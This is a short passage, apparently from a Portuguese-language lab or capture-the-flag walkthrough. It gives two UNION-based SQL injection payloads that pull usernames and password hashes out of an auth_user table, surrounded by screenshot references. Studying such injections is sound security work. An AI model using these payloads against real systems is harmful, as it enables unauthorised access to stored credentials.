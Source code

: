 ![Descrição da imagem](./images/12.png)

## Feito isso, agora vamos utilizar uma payload para obter o nome dos usuários e a hash das senhas dos usuários. 
- a'+union+select+1,username,3+from+auth_user+--+-
- a'+union+select+1,password,3+from+auth_user+--+-

![Descrição da imagem](./images/13.png)